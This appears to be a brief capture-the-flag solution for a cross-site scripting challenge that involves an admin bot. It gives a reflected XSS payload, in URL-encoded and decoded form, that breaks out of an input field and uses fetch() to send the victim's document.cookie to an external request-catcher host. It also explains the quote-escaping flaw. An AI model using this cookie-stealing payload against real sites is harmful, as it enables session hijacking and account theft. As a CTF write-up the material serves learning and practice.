 # Spoilers...

- Open `https://fadsfadsf.requestcatcher.com`

- Solve (paste into admin bot url part): `module/0?message=%22%22%3E%3Cscript%3Efetch%28%27https%3A%2F%2Ffadsfadsf.requestcatcher.com%2F%3Fcookie%3D%27%20%2B%20document.cookie%29%3C%2Fscript%3E`

  - Un-urlencoded: `module/0?message=""><script>fetch('https://fadsfadsf.requestcatcher.com/?cookie=' + document.cookie)</script>`

- Find the cookie in the url of a request sent to `https://fadsfadsf.requestcatcher.com`

- Explanation:
  - Use ""> to escape the placeholder field which only replaces the first quote and doesn't get fully escaped.
  - Make a request to a request catcher with the cookie
